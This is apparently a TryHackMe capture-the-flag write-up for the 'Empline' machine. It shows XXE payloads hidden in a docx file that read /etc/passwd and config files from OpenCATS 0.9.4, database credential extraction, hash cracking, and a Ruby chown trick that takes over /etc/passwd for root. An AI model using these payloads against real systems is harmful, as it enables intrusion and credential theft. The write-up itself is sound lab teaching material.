# Empline TryHackMe Writeup
### Level: `Medium` | OS: `Linux`


## Scanning
We run nmap on all ports with scripts and software versions.


## Enumeration
We access website and review all zones of site.


We list a subdomain that appears to lead to an employee area.


We found deployed an Opencats with version 0.9.4.


We launch "**dirsearch**", we list a directory where it shows us a panel that we can access without authentication.


### Deficient control panel to authorization control


## Exploitation
We search exploits and found this notice:
https://www.opencats.org/news/2019/july/

### Create with python docx_

```python
#!/usr/bin/env python
from docx import Document
document = Document()
paragraph = document.add_paragraph('m3n0sd0n4ld')
document.save('m3n0s.docx')
```
### Create m3n0s.docx


Unzip the file and edit the "**document.xml**".


```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "/etc/passwd"> ]>
```

We insert the following line (in orange color) and modify the text to "**&payload**".


We see that the proof of concept works: .


So now we read the "config.php" file where the database credentials are stored (remember that we have access to the service on port 3306).

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&payload;</data>
```
We will get the content of the file in base64, so we decode and we will have the credentials in plain text.


### Connect to the database


We select the table "*users*" and we will obtain the encrypted password of the user "*george*" (this one has a system user ;))


We use the "**hashes.com**" website to obtain the flat password through its hash.


### Read user.txt flag
With the password in plain text, we connect through the **SSH** service and read the "*user.txt*" file.


## Privilege Escalation
After an enumeration, "**linpeas.sh**" shows us that we have permissions with the "**ruby**" binary to modify the binary user due to a deficiency in capabilities.


We create a ruby file that we will use to modify the user of the file so we can edit it with our user.


```ruby
file = File.new("/etc/passwd", "r")
file.chown(1002, 1002)
```

Edit the file "*/etc/passwd*" and create the user "*m3n0sd0n4ld*", add the password hash and give it the root suid and save the file.


We authenticate with the user "*m3n0sd0n4ld*", we see that we are root and we read the root.txt flag.



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
